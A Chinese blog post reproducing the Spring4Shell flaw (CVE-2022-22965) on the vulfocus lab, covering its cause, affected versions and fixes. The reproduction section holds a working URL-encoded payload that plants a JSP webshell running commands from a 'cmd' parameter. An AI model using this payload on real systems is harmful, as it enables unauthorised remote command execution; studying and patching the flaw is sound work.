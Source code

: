 ```yaml
---
title: Spring core远程代码执行漏洞(CVE-2022-22965)复现
comments: true
date: 2022-04-29 18:23:41
tags: ["cve-2022-22965","Spring Core漏洞","漏洞复现"]
categories:
- 渗透测试
cover:
top_img:
description:
---
```






## 漏洞简介

springframework 是spring 里面的一个基础开源框架，主要用于javaee的企业开发。2022年3月30日，Spring框架曝出RCE 0day漏洞，攻击者通过该漏洞可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限。



## 漏洞成因

该漏洞是由于 Spring Core 未对传输的数据进行有效的验证。Spring MVC 框架提供参数绑定功能，允许用请求中的参数绑定控制器方法中参数对象的成员变量。这一机制使得攻击者能够通过构造恶意请求获取 AccessLogValve 对象，继而注入恶意字段值触发 pipeline 机制，从而能够在未授权的情况下远程构造恶意数据，写入任意路径下的文件，从而导致远程代码执行。



## 影响版本

Spring Framework 5.3.X < 5.3.18 

Spring Framework 5.2.X < 5.2.20



## 利用条件

- JDK 版本 >= 9

- 目标JDK9及其以上版本

- 使⽤了Spring-beans包；

- 使⽤了Spring参数绑定；

- Spring参数绑定使⽤的是⾮基本参数类型，例如⼀般的POJO即可；

  





## 漏洞复现

复现环境：这里使用vulfocus在线靶场：

### 1.连接靶场：

![image-20220429220755621](http://image.geoer.cn/img/image-20220429220755621.png)



![image-20220429220821256](http://image.geoer.cn/img/image-20220429220821256.png)





### 2.发送POC



**POC:**

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

```

访问时抓包，在"/"后插入EXP，并在请求头中插入如下字样：

```
suffix: %>
c1: Runtime
c2: <%
DNT: 1
Content-Length: 2
```



poc原理：

```
其中，header主要变更处为：
“suffix”:"%>",
“c1”:“Runtime”,
“c2”:"<%",
“DNT”:“1”,
“Content-Type”:“application/x-www-form-urlencoded”
:主体部分，链接后接两个参数pwd和cmd，pwd验证密码，cmd为实行的命令
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
:上传的文件后缀
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
：上传的文件名
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT/
:webapps/ROOT/knan为上传的目录，此处为访问创建目录下的文件

```







数据包内容：

![image-20220429223038550](http://image.geoer.cn/img/image-20220429223038550.png)









### 3.利用





若创建通过，放包后访问`[url]/tomcatwar.jsp?pwd=j&cmd=id`即可看到id命令成功执行。

![image-20220429222443020](http://image.geoer.cn/img/image-20220429222443020.png)



![image-20220429223116723](http://image.geoer.cn/img/image-20220429223116723.png)



## 利用工具

https://github.com/reznok/Spring4Shell-POC







## 修复建议

一、官方修复建议：

当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

二、临时修复建议：

该临时修复建议存在一定风险，建议用户可根据业务系统特性审慎选择采用临时修复方案：

需同时按以下两个步骤进行漏洞的临时修复:

\1. 在应用中全局搜索 @InitBinder 注解，看看方法体内是否调用 dataBinder.setDisallowedFields 方法，如果发现此代码片段的引入，则在原来的黑名单中，添加 {"class.*","Class. *","*. class.*", "*.Class.*"}。(注：如果此代码片段使用较多，需要每个地方都追加)

\2. 在应用系统的项目包下新建以下全局类，并保证这个类被 Spring 加载到 (推荐在 Controller 所在的包中添加). 完成类添加后，需对项目进行重新编译打包和功能验证测试。并重新发布项目。



